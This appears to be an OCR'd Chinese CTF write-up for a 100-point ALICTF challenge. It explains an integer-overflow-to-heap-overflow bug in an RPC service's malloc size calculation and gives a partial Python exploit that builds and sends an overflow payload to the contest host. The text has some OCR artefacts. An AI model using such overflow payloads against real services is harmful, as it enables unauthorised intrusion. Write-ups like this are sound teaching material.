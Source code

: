 ### 100pt

大概浏览了一下是一个Linux提供RPC的程序,一共有3个functoin可以让你调用。漏洞发生在rpc_function_1,其中注意到: ￼

```
mtl = temp.mtt * tl + 1; mt = (char*)malloc(mtl); 
if(mt)
{
    strcpy(mt,temp.t);
    for(i = 1;i < temp.mtt;i++)
￼￼￼￼￼￼}

```

由于temp.mtt以及tl均为unsigned short类型并且均可控,所以构造数据可以使得两者乘法导致整形溢出,mtl会变得较小,于是申请的堆块区域会不足以 放得下传进来的数据,导致堆溢出。完整的exploit如下:

```
import struct
import time
import socket
import telnetlib
import random
import sys

def p(x):
    return struct.pack('<I', x)

def netp(x):
    return struct.pack('>I', x)

def shortp(x):
    return struct.pack('<H', x)

def up(x):
    return struct.unpack('<I', x)[0]

def readuntil(f, delim='msg?\n'): 
    d = ''
    while not d.endswith(delim): 
        n = f.read(1)
        if len(n) == 0: 
            print 'EOF'
            break 
        d += n
    return d[:-len(delim)]

host = 'codesafe100.alictf.com' 
port = 30000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.connect((host, port))
f = s.makefile('rw', bufsize=0)

token = '此处user_token' 

temp = shortp(198)
temp += 'A' * 512

payload = chr(len(token)) # len_token 
payload += token # token
payload += chr(1) # function_id 
payload += netp(len(temp)) # len_data 
payload += temp

```